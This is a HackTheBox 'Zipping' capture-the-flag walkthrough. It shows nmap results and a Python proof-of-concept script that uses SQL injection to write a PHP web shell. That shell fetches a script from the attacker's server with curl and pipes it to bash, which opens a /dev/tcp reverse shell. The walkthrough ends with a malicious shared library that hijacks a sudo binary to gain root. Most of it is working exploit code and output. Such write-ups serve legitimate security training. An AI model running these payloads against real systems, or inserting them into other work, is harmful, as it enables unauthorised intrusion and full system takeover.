

# ⚽ Zipping HackTheBox Walkthrough

<figure><figcaption><p>ZIPPING - HACK THE BOX</p></figcaption></figure>


Add the given Machine IP to Host file

```
sudo nano /etc/hosts
```

Now you will be able to Open Webpage in Web Browser.

#### NMAP

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP6mSkoF2+wARZhzEmi4RDFkpQx3gdzfggbgeI5qtcIseo7h1mcxH8UCPmw8Gx9+JsOjcNPBpHtp2deNZBzgKcA=
|   256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOXXd7dM7wgVC+lrF0+ZIxKZlKdFhG2Caa9Uft/kLXDa
80/tcp open  http    syn-ack Apache httpd 2.4.54 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

#### INDEX PAGE&#x20;

<figure><figcaption><p>http://10.10.11.229/</p></figcaption></figure>

#### GETTING SHELL  ACESS

#### POC

```
import requests
import sys
import subprocess
import random

if len(sys.argv) < 2:
    print("Usage: python3 HTB_Zipping_poc.py <listener ip> <listener port>")
    sys.exit(1)

fnb = random.randint(10, 10000)
url = "http://zipping.htb/"

session = requests.Session()

print("[+] Please run nc in other terminal: rlwrap -cAr nc -nvlp " + f"{sys.argv[2]}")

print("[+] Write php shell /var/lib/mysql/rvsl" + str(fnb) + ".php")

with open('revshell.sh', 'w') as f:
        f.write("#!/bin/bash\n")
        f.write(f"bash -i >& /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1")
proc = subprocess.Popen(["python3", "-m", "http.server", "8000"])
phpshell = session.get(url + f"shop/index.php?page=product&id=%0A'%3bselect+'<%3fphp+system(\"curl+http%3a//{sys.argv[1]}:8000/revshell.sh|bash\")%3b%3f>'+into+outfile+'/var/lib/mysql/rvsl{fnb}.php'+%231")

print("[+] Get Reverse Shell")

phpshell = session.get(url + f"shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2frvsl{fnb}")

proc.terminate()
```

save this python script with **.py** format and run the following line of codes.

```
python3 script.py <your_vpn_ip> 4444 

& Run NETCAT in another Tab
```

```
┌──(Batman㉿GC)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.110] from (UNKNOWN) [10.10.11.229] 34126
bash: cannot set terminal process group (1128): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$   
```

Run TTY Spawn Shell.

#### Privilage Escalation

```
rektsu@zipping:/$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```



We can see a **binary** that requests a **password** luckily the password is given **"St0ckM4nager".**

Now we use strace and we find that the program calls library that does not exist: **/home/rektsu/.config/libcounter.so**

```
Open a text editor and save the file in /tmp/libcounter.c

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
 system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Type the following line of code.

```
gcc -shared -o /home/rekstu/.config/libcounter.so -fPIC /tmp/libcounter.c
```

Now run,

```
rektsu@zipping:/home/rektsu$ sudo /usr/bin/stock
Enter the password: St0ckM4nager
root@zipping:/home/rektsu# whoami
root
```

WE ARE **ROOT** !!!!!!
